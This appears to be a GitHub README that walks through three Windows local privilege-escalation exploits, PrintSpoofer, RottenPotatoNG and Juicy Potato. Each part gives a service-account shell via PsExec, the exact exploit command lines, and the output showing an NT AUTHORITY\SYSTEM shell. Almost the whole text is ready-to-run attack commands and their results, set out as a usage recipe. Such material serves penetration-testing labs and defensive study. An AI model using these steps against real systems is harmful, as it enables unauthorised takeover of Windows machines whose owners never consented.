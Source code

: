 Thanks for : 

https://github.com/itm4n/PrintSpoofer
https://github.com/breenmachine/RottenPotatoNG
https://github.com/ohpe/juicy-potato

# PrintSpoofer

 This attack requires SeImpersonatePrivilege privilege

First we will spawn a nt "authority\network service" shell with psexec

	PSTools>PsExec.exe -i -u "nt authority\network service" cmd.exe

In newly spawned shell check who you are

	C:\Windows\system32>whoami
	nt authority\network service
	
	C:\Windows\system32>whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                               State
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled
	SeCreateGlobalPrivilege       Create global objects                     Enabled
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled


Use PrintSpoofer64.exe and get system shell

	C:\Windows\system32>c:\tmp\PrintSpoofer64.exe -i -c powershell.exe
	[+] Found privilege: SeImpersonatePrivilege
	[+] Named pipe listening...
	[+] CreateProcessAsUser() OK
	Windows PowerShell
	Copyright (C) 2015 Microsoft Corporation. All rights reserved.
	
	PS C:\Windows\system32> whoami
	nt authority\system
	PS C:\Windows\system32> whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                  Description                                   State
	=============================== ============================================= =======
	SeCreateTokenPrivilege          Create a token object                         Enabled
	SeAssignPrimaryTokenPrivilege   Replace a process level token                 Enabled
	SeLockMemoryPrivilege           Lock pages in memory                          Enabled
	.
	.
	.
	SeRelabelPrivilege              Modify an object label                        Enabled
	SeIncreaseWorkingSetPrivilege   Increase a process working set                Enabled
	SeTimeZonePrivilege             Change the time zone                          Enabled
	SeCreateSymbolicLinkPrivilege   Create symbolic links                         Enabled


# RottenPotatoNG

Start a cmd with "local service" permission

	PSTools>PsExec.exe -i -u "nt authority\local service" cmd.exe

check permissions

	C:\Windows\system32>whoami
	nt authority\local service
	
	C:\Windows\system32>whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                               State
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeSystemtimePrivilege         Change the system time                    Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled
	SeCreateGlobalPrivilege       Create global objects                     Enabled
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled

Run MSFRottenPotato.exe, it will spawn a new cmd.exe with system privileges :)

	C:\Windows\system32>c:\tmp\MSFRottenPotato.exe
	COM -> bytes received: 116
	RPC -> bytes Sent: 116
	.
	.
	.
	COM -> bytes sent: 60
	COM -> bytes received: 42
	RPC -> bytes Sent: 42
	RPC -> bytes received: 56
	COM -> bytes sent: 56
	Running C:\Windows\System32\cmd.exe with args
	Auth result: 0
	Return code: 0
	Last error: 0

On new console

	C:\Windows\system32>whoami
	nt authority\system

# Juicy Potato

First spawn a shell with "local service" privs

	PSTools>PsExec.exe -i -u "nt authority\local service" cmd.exe

check your current privileges

	C:\Windows\system32>whoami
	nt authority\local service
	
	C:\Windows\system32>whoami /priv
	
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                               State
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeSystemtimePrivilege         Change the system time                    Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled
	SeCreateGlobalPrivilege       Create global objects                     Enabled
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled

Fire up bad boy, it will spawn a cmd for you :)

	C:\Windows\system32>c:\tmp\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t *
	Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
	......
	[+] authresult 0
	{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
	
	[+] CreateProcessWithTokenW OK

privs on new shell

	C:\Windows\system32>whoami
	nt authority\system
